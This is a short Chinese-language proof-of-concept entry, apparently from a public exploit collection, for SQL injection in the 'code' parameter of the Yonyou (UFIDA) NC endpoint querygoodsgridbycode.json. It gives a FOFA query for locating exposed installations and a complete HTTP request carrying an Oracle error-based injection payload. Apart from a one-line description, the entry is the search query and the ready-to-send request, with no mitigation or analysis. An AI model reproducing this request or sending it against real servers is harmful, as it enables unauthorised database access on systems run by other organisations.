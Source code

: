 # 用友NC系统querygoodsgridbycode接口code参数存在SQL注入漏洞

用友NC 接口 `/ecp/productonsale/querygoodsgridbycode.json` 存在SQL注入漏洞

## fofa

```yaml
app="用友-UFIDA-NC"
```

## poc

```yaml
GET /ecp/productonsale/querygoodsgridbycode.json?code=1%27%29+AND+9976%3DUTL_INADDR.GET_HOST_ADDRESS%28CHR%28113%29%7C%7CCHR%2898%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%289976%3D9976%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%28118%29%7C%7CCHR%28106%29%7C%7CCHR%28113%29%29--+dpxi HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: no-cache
```

